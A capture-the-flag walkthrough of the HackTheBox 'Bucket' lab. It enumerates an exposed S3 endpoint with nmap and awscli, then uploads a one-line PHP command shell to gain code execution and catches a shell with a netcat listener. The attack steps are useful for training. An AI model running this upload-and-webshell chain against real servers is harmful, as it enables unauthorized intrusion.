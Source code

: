 <h2>AWS lab on HackTheBox called ‘Bucket’</h2>

<h3>Initial Access:</h3>
Step 1: nmap -Pn 10.10.10.212 -p- --min-rate=5000|awk -F '/' '/open/ {print $1}'

Output returns open ports 22 and 80.

Step 2: Enumerate these open ports further with nmap: nmap -Pn 10.10.10.212 --min-rate=5000 -p 22,80 -sCV -oN nmap-htb-buckets 

Output returns:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/651a96ff-1389-4e6a-8db0-786d0045cf75)

Step 3: Nmap output shows a domain name of bucket.htb.  Enter this into /etc/hosts file so that we can access this domain name: 10.10.10.212 bucket.htb

Step 4: Visit the site http://bucket.htb.  Looking over the source code on the site shows:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/35ca4db5-919d-4916-923d-874e11e55532)

This shows a source at a subdomain of http://s3.bucket.htb.  

Enter this subdomain into /etc/hosts: 10.10.10.212 bucket.htb s3.bucket.htb

Step 5: The subdomain of s3.bucket.htb indicates that this is an aws s3 bucket.  Let’s check if we can list any s3 buckets with anonymous access using awscli: aws --no-sign-request s3 ls --endpoint-url http://s3.bucket.htb

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/f5597f92-9daf-4364-a5fe-649361cdc27d)

This return shows that there is a s3 bucket called ‘adserver’.

Step 6: List the ‘adserver’ s3 bucket: aws --no-sign-request s3 --endpoint-url http://s3.bucket.htb ls s3://adserver

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/92959525-b656-4c2b-85fe-47f5258346d7)

Download ‘index.html’ listed in the bucket: aws s3 --no-sign-request --endpoint-url http://s3.bucket.htb  cp s3://adserver/index.html .

Opening index.html confirms that this bucket is listing the website http://bucket.htb.  

Step 7: Check for more information on what we can do on this s3 bucket by running the ‘OPTIONS’ request method on the s3.bucket.htb endpoint:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/f4bc41c8-224e-411d-a556-852ef6122026)

We see from this that we can use the ‘PUT’ request method which is used to upload files.  

Step 8: Upload a php command shell (`<?php system($_GET[“cmd”]); ?>`) to the bucket: aws s3 --no-sign-request --endpoint-url http://s3.bucket.htb cp test.php s3://adserver/

Navigate to the uploaded file: http://bucket.htb/test.php?cmd=whoami

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/108b6033-cda6-431b-84af-d15f3514f864)

Step 9: Open up a netcat listener: nc -lvnp 4444

Next, upload a php webshell using the same command used in step 8.  Then navigate to the uploaded web shell to get a shell as user www-data.





